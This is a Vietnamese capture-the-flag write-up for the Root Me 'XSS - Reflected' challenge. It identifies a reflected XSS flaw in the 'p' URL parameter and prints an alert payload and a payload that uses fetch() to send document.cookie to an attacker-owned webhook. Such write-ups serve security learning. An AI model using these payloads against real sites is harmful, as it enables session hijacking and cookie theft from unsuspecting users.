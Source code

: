 # Root Me/XSS - Reflected

![](https://i.imgur.com/OLPkPO2.png)

Link to chall: http://challenge01.root-me.org/web-client/ch26

## Phân tích

Sau khi vào trang web em test thử các tính năng của web và nhận thấy có trang `/contact` truy cập vào đây em thấy có form để em gửi cho admin

![](https://i.imgur.com/DpyiwM3.png)

Ban đầu do không đọc đoạn tiếng anh bên trên nên em đã mất khá nhiều thời gian để test payload ở những thẻ input của form. Nhưng sau khi bất lực em bắt đầu dịch đoạn tiếng anh trên và không ngờ:
`Giống như hầu hết các doanh nghiệp, không ai thực sự kiểm tra bất kỳ phản hồi nào trong số này, nhưng để có vẻ như chúng tôi quan tâm, chúng tôi đã tạo một form hoàn toàn vô dụng mà bạn có thể điền vào.`

**Form đấy vô dụng :<**

Giờ đây em bắt đầu tìm hướng khác, en bắt đầu để ý đến url, website sử dụng tham số `p` để xác định page mà client muốn truy cập. Em thử thay đổi nó bằng một giá trị bất kỳ:

![](https://i.imgur.com/jCBjA61.png)

Đây rồi!!! Dấu hiệu của xss đây rồi~~~

## Khai thác

Bắt đầu bằng việc thử alert em dùng payload sau: `?p=contactt' onclick='alert(1)`

![](https://i.imgur.com/20dYthg.png)

Khi em click vào link đó alert đã hiện ra :+1: 

![](https://i.imgur.com/2pAG45t.png)

Giờ để lấy cắp được cookie của admin em thực thiện fetch đến một link mà em sở hữu để theo dõi các yêu cầu http (ở đây em dùng [Webhook](https://webhook.site/))

Với payload: ```?p=contactt' autofocus onfocus='fetch(`[Link webhook]?cookie=${document.cookie}`)```

![](https://i.imgur.com/1gscUGw.png)

Mọi thứ có vẻ đã đúng rồi, giờ em `Report to the admin...` và đợi cookie của admin trả về ở phía webhook thôi :face_with_finger_covering_closed_lips: 

![](https://i.imgur.com/dDYoN99.png)



---